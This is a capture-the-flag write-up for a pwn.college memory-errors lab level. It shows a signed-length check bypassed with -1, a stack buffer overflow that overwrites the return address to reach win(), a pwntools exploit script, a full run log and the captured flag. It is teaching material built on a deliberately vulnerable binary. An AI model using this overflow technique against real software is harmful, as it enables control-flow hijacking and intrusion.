

# Level 4.0

Opened the challenge and found this key point:
`In this level, there is no "win" variable.
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffc7379da28, 56 bytes after the start of your input buffer.
That means that you will need to input at least 64 bytes (36 to fill the buffer,
20 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).`

After passing a random payload initially I found this:

`This challenge is more careful: it will check to make sure you
don't want to provide so much data that the input buffer will
overflow. But recall twos compliment, look at how the check is
implemented, and try to beat it!`

The biggest hint lies in 2's compliment. Our input payload must be such that it's 2's complement should be large enough value.

Then I came across this useful article : https://stackoverflow.com/questions/21532164/how-can-1111-1111-be-the-two-s-complement-representation-of-1#:~:text=1111%201111%20is%20the%20representation%20of%20%2D1%20in%20two's%20complement.&text=The%20%22one%22%20at%20the%20beginning,is%20the%20%22carry%20bit%22.

By sending -1 as the input payload, I can increase the size to `1111 1111` which is pretty large value.

Also we don't know the address of win here, so I used gdb to find it out:



Based on this knowledge, I created the following script:

```py 
from pwn import *

p = process('/challenge/babymem-level-4-0')
p.sendline(b"-1")
payload = b"a"*56 + b"\xd2\x22\x40\x00"
p.send(payload)
p.interactive()
```


```
hacker@memory-errors~level4-0:~$ python3 script2.py
[+] Starting local process '/challenge/babymem-level-4-0': pid 110
[*] Switching to interactive mode
[*] Process '/challenge/babymem-level-4-0' stopped with exit code -11 (SIGSEGV) (pid 110)
###
### Welcome to /challenge/babymem-level-4-0!
###

The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffef5153400 (rsp+0x0000) | 40 65 40 d2 8a 7e 00 00 | 0x00007e8ad2406540 |
| 0x00007ffef5153408 (rsp+0x0008) | 98 45 15 f5 fe 7f 00 00 | 0x00007ffef5154598 |
| 0x00007ffef5153410 (rsp+0x0010) | 88 45 15 f5 fe 7f 00 00 | 0x00007ffef5154588 |
| 0x00007ffef5153418 (rsp+0x0018) | 93 3e 2a d2 01 00 00 00 | 0x00000001d22a3e93 |
| 0x00007ffef5153420 (rsp+0x0020) | a0 06 40 d2 8a 7e 00 00 | 0x00007e8ad24006a0 |
| 0x00007ffef5153428 (rsp+0x0028) | 0a 00 00 00 00 00 00 00 | 0x000000000000000a |
| 0x00007ffef5153430 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffef5153438 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffef5153440 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffef5153448 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffef5153450 (rsp+0x0050) | 00 00 00 00 fe 7f 00 00 | 0x00007ffe00000000 |
| 0x00007ffef5153458 (rsp+0x0058) | 30 34 15 f5 fe 7f 00 00 | 0x00007ffef5153430 |
| 0x00007ffef5153460 (rsp+0x0060) | 90 44 15 f5 fe 7f 00 00 | 0x00007ffef5154490 |
| 0x00007ffef5153468 (rsp+0x0068) | 4e 2a 40 00 00 00 00 00 | 0x0000000000402a4e |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7ffef5153400, and our base pointer points to 0x7ffef5153460.
This means that we have (decimal) 14 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 112 bytes.
The input buffer begins at 0x7ffef5153430, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 36 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is no "win" variable.
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffef5153468, 56 bytes after the start of your input buffer.
That means that you will need to input at least 64 bytes (36 to fill the buffer,
20 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

We have disabled the following standard memory corruption mitigations for this challenge:
- the canary is disabled, otherwise you would corrupt it before
overwriting the return address, and the program would abort.
- the binary is *not* position independent. This means that it will be
located at the same spot every time it is run, which means that by
analyzing the binary (using objdump or reading this output), you can
know the exact value that you need to overwrite the return address with.

Payload size: This challenge is more careful: it will check to make sure you
don't want to provide so much data that the input buffer will
overflow. But recall twos compliment, look at how the check is
implemented, and try to beat it!
You made it past the check! Because the read() call will interpret
your size differently than the check above, the resulting read will
be unstable and might fail. You will likely have to try this several
times before your input is actually read.
You have chosen to send -1 bytes of input!
This will allow you to write from 0x7ffef5153430 (the start of the input buffer)
right up to (but not including) 0x7ffef515342f (which is -37 bytes beyond the end of the buffer).
Of these, you will overwrite -57 bytes into the return address.
If that number is greater than 8, you will overwrite the entire return address.

You will want to overwrite the return value from challenge()
(located at 0x7ffef5153468, 56 bytes past the start of the input buffer)
with 0x4022d2, which is the address of the win() function.
This will cause challenge() to return directly into the win() function,
which will in turn give you the flag.
Keep in mind that you will need to write the address of the win() function
in little-endian (bytes backwards) so that it is interpreted properly.

Send your payload (up to -1 bytes)!
You sent 60 bytes!
Let's see what happened with the stack:

+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffef5153400 (rsp+0x0000) | 40 65 40 d2 8a 7e 00 00 | 0x00007e8ad2406540 |
| 0x00007ffef5153408 (rsp+0x0008) | 98 45 15 f5 fe 7f 00 00 | 0x00007ffef5154598 |
| 0x00007ffef5153410 (rsp+0x0010) | 88 45 15 f5 fe 7f 00 00 | 0x00007ffef5154588 |
| 0x00007ffef5153418 (rsp+0x0018) | 93 3e 2a d2 01 00 00 00 | 0x00000001d22a3e93 |
| 0x00007ffef5153420 (rsp+0x0020) | a0 06 40 d2 8a 7e 00 00 | 0x00007e8ad24006a0 |
| 0x00007ffef5153428 (rsp+0x0028) | 0a 00 00 00 ff ff ff ff | 0xffffffff0000000a |
| 0x00007ffef5153430 (rsp+0x0030) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007ffef5153438 (rsp+0x0038) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007ffef5153440 (rsp+0x0040) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007ffef5153448 (rsp+0x0048) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007ffef5153450 (rsp+0x0050) | 61 61 61 61 3c 00 00 00 | 0x0000003c61616161 |
| 0x00007ffef5153458 (rsp+0x0058) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007ffef5153460 (rsp+0x0060) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007ffef5153468 (rsp+0x0068) | d2 22 40 00 00 00 00 00 | 0x00000000004022d2 |
+---------------------------------+-------------------------+--------------------+
The program's memory status:
- the input buffer starts at 0x6161616161616161
- the saved frame pointer (of main) is at 0x7ffef5153460
- the saved return address (previously to main) is at 0x7ffef5153468
- the saved return address is now pointing to 0x4022d2.
- the address of win() is 0x4022d2.

If you have managed to overwrite the return address with the correct value,
challenge() will jump straight to win() when it returns.
Let's try it now!

Goodbye!
You win! Here is your flag:
pwn.college{so4JlTYYUvtdjokLz64oi8YkWfo.0VN5IDLzITO0czW}
```

## Flag

`pwn.college{so4JlTYYUvtdjokLz64oi8YkWfo.0VN5IDLzITO0czW}`

## References

https://stackoverflow.com/questions/21532164/how-can-1111-1111-be-the-two-s-complement-representation-of-1#:~:text=1111%201111%20is%20the%20representation%20of%20%2D1%20in%20two's%20complement.&text=The%20%22one%22%20at%20the%20beginning,is%20the%20%22carry%20bit%22.